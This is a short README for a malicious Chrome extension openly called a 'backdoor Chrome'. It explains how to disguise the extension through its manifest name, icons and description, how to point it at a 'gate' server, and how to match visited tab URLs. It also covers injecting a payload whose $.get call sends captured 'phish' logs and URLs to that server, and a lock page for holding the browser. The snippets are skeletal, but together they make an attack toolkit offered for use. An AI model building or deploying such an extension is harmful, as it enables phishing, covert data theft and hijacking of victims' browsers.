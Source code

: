 ![backdoor Chrome](http://s9.postimg.org/vvo5ncxy7/chrome.png)

## Change name, icones, description

change it on manifest

![Backdoor chrome](http://s15.postimg.org/yf0rmsfuj/rename.png)

## Change Gate
```JavaScript
    var server_web = "http://localhost:8888/"
    var lock_page = "relais/lock.php"
    var gate_page = "relais/index.php"
```

## lock.php

Update lock page in 1

![Backdoor lock](http://s27.postimg.org/vahc0lb8z/lock.png)

## Check URL
```JavaScript
    // VERIFIED D'URL
    if(tabURL.indexOf('') !== -1 ) // url in ''
    {
        Payload_exemple();
    }
```

## Create payload
```JavaScript
    // PAYLOAD FUNCTION NEED HTTPS
    function Payload_exemple()
    {
        console.log('Injected here')
        var urls = "" // Var for URL
        var phish = "" // Var for logs 
        $.get(server_web+gate_page, { info: phish, url: urls } );
    }
```

## Go to web relais
enjoy